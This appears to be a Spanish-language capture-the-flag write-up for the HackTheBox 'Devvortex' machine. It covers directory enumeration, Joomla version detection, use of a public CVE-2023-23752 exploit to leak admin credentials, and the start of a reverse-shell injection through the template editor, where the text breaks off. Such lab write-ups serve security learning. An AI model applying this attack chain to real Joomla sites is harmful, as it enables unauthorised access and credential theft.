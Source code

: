 Agregar al `/etc/hosts`:  

```
10.10.11.242 dev.devvortex.htb devvortex.htb

```  

### 4. Enumeración de rutas/directorios:  

```
dirsearch -u http://dev.devvortex.htb/
```  

---

## 🔑 Explotación de Joomla  

### 5. Descubrimiento de versión vulnerable:  

Archivo accesible:  

Encontré una ruta que dirigía a un panel de administración y noté que se trataba del panel de Joomla. Al buscar en Google sobre Joomla, encontré la siguiente descripción:

```"Joomla, también estilizado como Joomla! y a veces abreviado como J!, es un sistema de gestión de contenido (CMS) gratuito y de código abierto para la publicación de contenido web. Las aplicaciones de contenido web incluyen foros de discusión, galerías de fotos, comercio electrónico y comunidades de usuarios, entre muchas otras aplicaciones basadas en la web." ```
Buscando en Google exploits para Joomla, encontré que las versiones anteriores a 4.2.8 son vulnerables a ejecución remota de código (RCE).

Así que necesitaba averiguar la versión exacta.

Explorando los archivos que había encontrado con dirbuster, vi el archivo:

/language/en-GB/langmetadata.xml

Disponible en:

http://dev.devvortex.htb/language/en-GB/langmetadata.xml

Allí confirmé que el servidor usaba Joomla Project y que la versión era vulnerable tanto a RCE como a information disclosure.



**Credenciales Joomla:**
Haciendo uso de este exploit, conseguimos las credenciales del Joomla

https://github.com/Acceis/exploit-CVE-2023-23752
```
Usuario: lewis
Contraseña: **********
```  

### 7. Acceso al panel de Joomla:  

```
http://dev.devvortex.htb/administrator/
```  

---

## ⚔️ Reverse Shell  

### 8. Inyección de reverse shell en Joomla  

Desde el panel:  
```
Sistema -> Plantillas de Administrador -> index.php